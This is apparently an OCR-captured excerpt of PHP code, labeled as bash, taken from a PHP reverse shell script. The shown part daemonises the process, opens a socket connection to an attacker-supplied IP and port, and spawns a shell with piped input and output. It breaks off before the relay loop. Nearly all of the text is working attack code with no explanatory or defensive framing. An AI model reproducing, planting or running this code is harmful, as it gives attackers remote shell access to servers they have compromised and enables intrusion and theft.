 ```bash
//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
```